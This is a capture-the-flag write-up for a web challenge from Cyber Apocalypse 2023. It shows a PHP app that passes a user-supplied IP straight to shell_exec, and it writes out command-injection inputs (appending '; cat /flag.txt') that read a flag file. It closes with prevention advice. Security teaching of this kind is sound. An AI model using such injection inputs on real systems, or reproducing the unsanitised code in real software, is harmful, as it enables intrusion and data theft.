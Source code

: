 ```yaml
---
layout: default
title: Drobots
---
```


# [Cyber Apocalypse 2023](index.md) - Web - Drobots

> During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

As usual for web challenges, we are provided with a zip file with source code, and a spawnable docker container.

![Gunhead](web-gunhead/01.png)

Looks like we're controlling a robot - cool.

![Gunhead](web-gunhead/02.png)

We can toggle a "needs" box along the left, and a sliding-down-from-the-top-like-quake command terminal.

![Gunhead](web-gunhead/03.png)

We've got some commands we can run - the main ones being `/ping` and `/storage`.

`/storage` gives us some general storage related info.

```
> /storage
Filesystem: /dev/sda1
Total Space: 20TB
Used Space: 14TB
Available Space: 6TB
Use Percentage: 70%
Mounted On: /
```

`/ping` seems to... actually ping things, so that's interesting.

```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
> /ping 8.8.8.8
[+] Starting scan on 8.8.8.8
```

Lets take a look at the provided source code.

In this container's `Dockerfile`, we can see the flag getting copied into the container using the following two entries:

```dockerfile
# Copy flag
COPY flag.txt /flag.txt
RUN chmod 755 /flag.txt
```

`chmod 755` would mean that any user on the system can read it, including the `www` user that the web server (nginx in this case) is running as. If this was _actually_ a sensitive file, `755` is not a good choice here.

The rest of the code seems to be a fairly simple web application written in PHP (simple for a professional software developer I guess).

```php
$router = new Router();
$router->new('GET', '/', 'ReconController@index');
$router->new('POST', '/api/ping', 'ReconController@ping');
```
There is a an API route for the ping command, though not the storage command (which is probably imaginary for the sake of the challenge - fair enough).

Following the code to the `ReconController` file...

```php
class ReconController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
}
```
We get some input from the user in json format specifying an ip address and pass it directly to a new `ReconModel`.
It's interesting that there is _absolutely no_ input sanitation or checking or anything here - it's just passing the input directly from the user to `ReconModel`... maybe there will be some security in there? (I won't hold my breath, this is a _very easy_ challenge).

```php
class ReconModel
{
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```
No sanity checks, and it takes whatever we type in and inserts it directly onto the end of a `ping` command, which it passes to `shell_exec` to run a ping on the underlying system.

In PHP, [shell_exec](https://www.php.net/manual/en/function.shell-exec.php):
> Execute command via shell and return the complete output as a string

We can probably just chain a command on the end of whatever we want to ping, and have it execute that as well. In Linux systems you can chain commands together in a number of ways:
 * `&&` can be used to run command sequentially from left to right. For example, `apt update && apt upgrade && apt autoremove` would run `apt update`, wait for it to finish, then run `apt upgrade`, wait for it to finish and then run `apt autoremove`. If a previous command fails, it will not process any further commands in the chain.
 * `|` can be used in the same way as `&&`, but it will pass the output from the previous command to the input of the next one. It will stop processing the chain if it encounters an error.
 * `;` can be used in the same way as `&&`, but it will not care about if a previous command is successful or not, and will _not_ pass output to the input of the next command.

Since we can use any command on the system, `cat` is a good choice - it will simply return the contents of a file in plain text, which is what we want to reveal the flag.

So, on the website, if we run the following command, we should get a flag:

```
/ping 8.8.8.8 && cat /flag.txt
```
```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
> /ping 8.8.8.8 && cat /flag.txt
```
This doesn't seem to work - likely either the `ping` command itself is failing, or the `shell_exec` PHP function is confused when running `ping` because ping takes a while to actually finish - we never see the results of _any_ of the pings that it does, just that it's started doing them.

So, lets try `;`

```
/ping 8.8.8.8 ; cat /flag.txt
```

```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
> /ping 8.8.8.8 ; cat /flag.txt
```

Looks like this worked, and we can see it's returned the flag.

```
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
```

## How could they have prevented this?
 * Do a sanity check on all user inputs
 * Never let user input of any kind go directly to the command line
 * Probably your web app doesn't need to ping things, that seems bad for a lot of reasons. Maybe if a hypothetical robot needed to do some kind of uptime check, hardcoding the address to ping might be better, rather than letting the user input something.
 * In this case, the web server was running as the `www` user, which shouldn't have access to sensitive files. Make sure the service account for your web server doesn't have access to sensitive files.